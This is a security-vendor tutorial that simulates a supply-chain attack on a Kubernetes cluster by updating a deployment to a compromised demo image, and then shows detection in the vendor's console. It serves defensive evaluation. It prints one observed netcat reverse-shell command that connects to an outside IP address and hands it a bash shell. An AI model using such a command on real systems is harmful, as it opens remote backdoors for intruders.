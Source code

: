 # Supply-Chain Attack

This scenario demonstrates a supply chain attack where a container image is getting an update with malicious code to create a backdoor to a kubernetes cluster environment. It shows how through the use of policies for applications running on the cluster, unanticipated changes in the behavior of these application can be detected early and remediated.

## Initial setup

If you have not yet done the inital installation steps for these attack scenarios, refer to [Spyderbat eval repository](https://github.com/spyderbat/eval)

If your setup was successful, you should see a namespace called `supply-chain` in your cluster, and some resources in it, like so:

```sh
kubectl get all -n supply-chain
```
```
NAME                            READY   STATUS    RESTARTS   AGE
pod/mongodb-66b5d7df55-b6q5j    1/1     Running   0          18h
pod/rsvp-app-587559dbf4-fnvzq   1/1     Running   0          18h
pod/rsvp-app-587559dbf4-mbxkl   1/1     Running   0          18h

NAME               TYPE        CLUSTER-IP      EXTERNAL-IP   PORT(S)        AGE
service/mongodb    ClusterIP   10.43.220.107   <none>        27017/TCP      25h
service/rsvp-app   NodePort    10.43.201.79    <none>        80:30135/TCP   25h

NAME                       READY   UP-TO-DATE   AVAILABLE   AGE
deployment.apps/mongodb    1/1     1            1           25h
deployment.apps/rsvp-app   2/2     2            2           25h

NAME                                  DESIRED   CURRENT   READY   AGE
replicaset.apps/mongodb-66b5d7df55    1         1         1       18h
replicaset.apps/rsvp-app-587559dbf4   2         2         2       18h
```

## Inspecting the setup

We can have a look at what this looks like in the cluster, and what processes are running in the Spyderbat Console.

Log in to the console, click on the Kubernetes menu item in the navigation bar, pick your cluster in the Cluster dropdown, and click on New Search.

Now, pick the 'Workload View' to see all kubernetes artefacts, and in the facet filter on the left, select the supply-chain namespace.

![K8s view of the application](./supply_chain_1.png)

We can see a deployment/replicaset/pod for the mongodb backend for the application, and a deployment/replicaset with two pods for the web-tier of the application.

Let's have a closer look at the web tier, and inspect the manifest of the pod. Click on one of the rvsp-app pods and scroll down in the lower pane to inspect the kubernetes definition, down to the spec section.

![rsvp app pod spec](./supply_chain_2.png)

We can see the app is running an image `guyduchatelet/spyderbat-demo:1`

We can assess what is running in this image by inspecting the container that is running it. Right-click on the container and select 'investigate container'

<div style="display:flex;justify-content:center">

![investigate container](./supply_chain_3.png)

</div>

This brings us to a process view of everything running inside of the container:

<div style="display:flex;justify-content:center">

![container process view](./supply_chain_4.png)

</div>
We can tell from this the entrypoint of the container spawns a python process, and another child python process to run the web
server. That is the normal state of this web server container


## Running the Exploit

For this exploit, we are going to simulate a supply chain attack on
the image of the web app we deployed. Imagine a newer version of the image gets pushed to the image repo, and that image got compromised and contains embedded code to gain access, through a backdoor.

The application developers are unaware and will push a newer version
of the image.

Let's simulate that action by updating the web deployment to use a more recent version of the image.

Find the file `supply-chain.yaml` under the modules directory of the eval repo, and open it up in your editor of choice.

Look for the deployment definition with name 'rsvp-app', and find the spec section. In the container properties, update the image from
`guyduchatelet/spyderbat-demo:1` to `guyduchatelet/spyderbat-demo:2`

After saving, now let's apply this change to the cluster:

```sh
kubectl apply -f supply-chain.yaml
```
```
namespace/supply-chain unchanged
deployment.apps/mongodb unchanged
service/mongodb unchanged
deployment.apps/rsvp-app configured
service/rsvp-app unchanged
```

We can see that the rsvp-app deployment is getting updated. The existing pods will be removed, and new pods will take their place.

## Investigating the Results

Give it a few minutes for these changes to take effect, and then we can go back to the Spyderbat UI to evaluate the change in behavior

Go back to the Kubernetes view in the UI, pick your cluster, update your start-time selection to 'Now', for the most recent view on your cluster, select the workload view. Then locate again the supply-chain namespace, and the rsvp-app and its containers.

Depending on your timing, you might see both the older deployment (with the previous image) and the newer deployment side to side in this view, like here:

![container process view](./supply_chain_6.png)

On the left, we see the old deployment, on the right the new deployment came in. Already in this view, there is an indication things have changed - we see several redflags that have been raised on the new containers. These flags can be inspected for more detail.

Let's pivot again into the full process view inside the container. Pick a container and inspect it again as before to look at the processes running inside. Here's what we see:

![compromised container process view](./supply_chain_5.png)

Clearly the behavior of this image has changed, it's no longer just running a python web server but is running several suspicious commands. We can see it is running a netcat command

```sh
/tmp/nc 54.161.223.45 443 -e /bin/bash
```

Which seems to have succeed in creating a backdoor towards a system on the internet.

## Next Steps

Given the identification of the backdoor, the most prudent course of action is to work with the application developer to roll back to the older version of the app, and further investigate other suspicious activity on the kubernetes nodes.

Spyderbat also can provide a very strong defense against this type of attack by leveraging a Guardian policy for a container image, that will specify explicitly what is the expected behavior of the image, and automatically alert on, or even kill pods where the behavior differs.

We will explore this in the "Image Policies — Supply-Chain Attack" scenario.

